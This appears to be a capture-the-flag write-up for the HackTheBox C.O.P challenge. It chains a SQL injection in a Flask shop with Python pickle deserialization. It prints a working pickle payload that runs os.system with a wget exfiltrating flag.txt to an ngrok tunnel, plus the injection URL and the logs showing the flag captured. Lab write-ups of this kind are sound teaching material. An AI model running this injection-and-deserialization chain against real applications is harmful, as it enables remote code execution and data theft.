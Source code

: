 # HackTheBox C.O.P challenge
the first thing we see in the challenge's source code is an obvious SQL injection vulnerability <br>
```python
from application.database import query_db

class shop(object):

    @staticmethod
    def select_by_id(product_id):
        return query_db(f"SELECT data FROM products WHERE id='{product_id}'", one=True)

    @staticmethod
    def all_products():
        return query_db('SELECT * FROM products')
```
but that is not enough to solve this challenge and there's nothing useful in the database because in order to capture the flag we need to be able to read files on the system <br>
as the name of the challenge also suggests this is a python pickle deserialization vulnerability [for more information read this article](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) <br>

as you can see in the source code website uses pickle module to turn "Item" objects into a base64 encoded format and store them in the database.
```python
class Item:
	def __init__(self, name, description, price, image):
		self.name = name
		self.description = description
		self.image = image
		self.price = price

def migrate_db():
    items = [
        Item('Pickle Shirt', 'Get our new pickle shirt!', '23', '/static/images/pickle_shirt.jpg'),
        Item('Pickle Shirt 2', 'Get our (second) new pickle shirt!', '27', '/static/images/pickle_shirt2.jpg'),
        Item('Dill Pickle Jar', 'Literally just a pickle', '1337', '/static/images/pickle.jpg'),
        Item('Branston Pickle', 'Does this even fit on our store?!?!', '7.30', '/static/images/branston_pickle.jpg')
    ]
    
    with open('schema.sql', mode='r') as f:
        shop = map(lambda x: base64.b64encode(pickle.dumps(x)).decode(), items)
        get_db().cursor().executescript(f.read().format(*list(shop)))
```
then in the templates it passes the data through a "pickle" functions that turns the data into original form<br>
app.py:
```
@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
```
index.html:
```html
...
<div class="row gx-4 gx-lg-5 row-cols-2 row-cols-md-3 row-cols-xl-4">
                    {% for product in products %}
                    {% set item = product.data | pickle %}
                    <div class="col mb-5">
                        <div class="card h-100">
...
```
We can exploit this using the SQL injection vulnerability we found before<br>
```
http://159.65.20.166:32188/view/' union select "<malicious base64-encoded pickled object>" --
```
since we can't get the code outputs directly the best way would be to run an ngrok tunnel<br>
```
ngrok http 8000
```
output:
```
ngrok                                                           (Ctrl+C to quit)
                                                                                
Build better APIs with ngrok. Early access: ngrok.com/early-access              
                                                                                
Session Status                online                                            
Account                       amirali.rafie.03@gmail.com (Plan: Free)           
Version                       3.5.0                                             
Region                        United States (us)                                
Latency                       33ms                                              
Web Interface                 http://127.0.0.1:4040                             
Forwarding                    https://e127-50-....-31.ngrok-free.app -> http:
                                                                                
Connections                   ttl     opn     rt1     rt5     p50     p90       
                              1       0       0.00    0.00    0.00    0.00      
                                                                                
HTTP Requests                                                                   
-------------           

```
now we can create our payload<br>
```python
import sys
import base64
import pickle

class Payload:

  def __reduce__(self):
    import os
    command = "wget https://e127-50-....-31.ngrok-free.app/`cat flag.txt`"
    print(command)
    return os.system, (command,)


payload = base64.b64encode(pickle.dumps(Payload())).decode()
print(payload)
```
output:
```
gASVWAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjD13Z2V0IGh0dHBzOi8vZTEyNy01MC0xMDEtMTYxLTMxLm5ncm9rLWZyZWUuYXBwL2BjYXQgZmxhZy50eHRglIWUUpQu
```
then we can execute our payload<br>
```
http://159.65.20.166:32188/view/' union select "gASVWAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjD13Z2V0IGh0dHBzOi8vZTEyNy01MC0xMDEtMTYxLTMxLm5ncm9rLWZyZWUuYXBwL2BjYXQgZmxhZy50eHRglIWUUpQu" --
```
and we just captured the flag<br>
```
ngrok                                                           (Ctrl+C to quit)
                                                                                
Build better APIs with ngrok. Early access: ngrok.com/early-access              
                                                                                
Session Status                online                                            
Account                       amirali.rafie.03@gmail.com (Plan: Free)           
Version                       3.5.0                                             
Region                        United States (us)                                
Latency                       53ms                                              
Web Interface                 http://127.0.0.1:4040                             
Forwarding                    https://e127-50-....-31.ngrok-free.app -> http:
                                                                                
Connections                   ttl     opn     rt1     rt5     p50     p90       
                              1       0       0.01    0.00    0.00    0.00      
                                                                                
HTTP Requests                                                                   
-------------                                                                   
                                                                                
GET /HTB{n0_m0.........aanda_4u} 502 Bad Gateway
```
